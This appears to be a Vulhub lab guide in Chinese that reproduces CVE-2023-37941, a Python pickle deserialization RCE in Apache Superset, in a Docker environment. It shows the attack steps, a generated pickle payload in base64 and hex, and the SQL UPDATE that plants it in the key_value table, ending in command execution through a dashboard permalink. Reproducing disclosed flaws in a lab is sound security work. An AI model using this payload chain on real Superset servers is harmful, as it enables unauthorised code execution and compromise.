

Apache Superset Python Pickle 反序列化导致远程代码执行（CVE-2023-37941）¶
Apache Superset是一个开源的数据探索和可视化平台，设计为可视化、直观和交互式的数据分析工具。
Apache Superset 1.5至2.1.0版本中存在一个Python Pickle反序列化漏洞（CVE-2023-37941）。该应用程序使用Python的pickle包来在元数据数据库中存储特定的配置数据。具有元数据数据库写入权限的已认证用户可以插入恶意的Pickle有效载荷，当应用程序反序列化这些数据时，会导致Superset服务器上的远程代码执行。
当与CVE-2023-27524结合使用时，未经身份验证的攻击者可以先绕过身份验证，然后利用反序列化漏洞执行任意代码。
参考链接：
- https://www.horizon3.ai/attack-research/disclosures/apache-superset-part-ii-rce-credential-harvesting-and-more/
- https://github.com/Barroqueiro/CVE-2023-37941
- https://forum.butian.net/share/2458
环境搭建¶
执行以下命令启动Apache Superset 2.0.1服务器：
docker compose up -d
服务启动后，可以通过http://your-ip:8088访问 Superset。默认登录凭据为admin/vulhub。
漏洞复现¶
执行以下步骤前，假设你已经通过CVE-2023-27524漏洞生成有效的会话Cookie并登录到仪表板。
首先，创建一个新的"Dashboard"，并通过点击"Share"按钮生成一个永久链接，复制这个永久链接，稍后将会用到：

然后，按照以下步骤创建一个新的"Database"：
- 导航到"Data"→"Databases"
- 点击"+ Database"添加一个新的数据库连接
- 输入数据库名称（比如"SQLite"）
- 这里请填写：
sqlite+pysqlite:////app/superset_home/superset.db - 展开"Advanced"并勾选"Expose in SQL Lab"和"Allow DML"
- 保存数据库配置


然后，使用CVE-2023-37941.py生成恶意SQL命令（-d选项可以是sqlite、mysql或postgres，表示Superset服务器的数据库类型，在Vulhub中是sqlite）：
$ python3 CVE-2023-37941.py -c "touch /tmp/success" -d sqlite
[+] Base64 encoded payload:
Y3Bvc2l4CnN5c3RlbQpwMAooVnRvdWNoIC90bXAvc3VjY2VzcwpwMQp0cDIKUnAzCi4=
[+] Hex encoded payload (for SQL):
update key_value set value=X'63706f7369780a73797374656d0a70300a2856746f756368202f746d702f737563636573730a70310a7470320a5270330a2e' where resource='dashboard_permalink';
[!注意] 因为
pickle反序列化的Payload在不同操作系统上是不同的，所以你需要在Linux或MacOS上生成Payload。
在SQL Lab中执行生成的SQL命令：

最后，通过访问前面复制的永久链接触发反序列化：

可见，touch /tmp/success命令已成功执行。